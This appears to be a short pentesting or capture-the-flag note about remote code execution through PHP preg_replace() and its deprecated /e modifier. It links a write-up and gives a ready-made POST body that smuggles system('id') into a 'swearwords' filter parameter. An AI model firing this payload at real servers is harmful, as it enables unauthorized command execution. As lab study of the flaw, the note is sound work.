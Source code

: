 ### preg_replace()
https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/ <-- Check
Now for further exploitation need to replace **i** modifier with **e** modifier which will cause PHP to execute the result of preg\_replace() operation as PHP code.
'ass/e=system(command)'
```php
swearwords[/fuck/i]=make love&swearwords[/shit/i]=poop&swearwords[/ass/e]=system('id');&swearwords[/dick/i]=penis&swearwords[/whore/i]=escort&swearwords[/asshole/i]=bad person&to=test@htb.com&subject=fuck your ass&message=<p>fuck your ass<br></p>&_wysihtml5_mode=1
```
---

### todo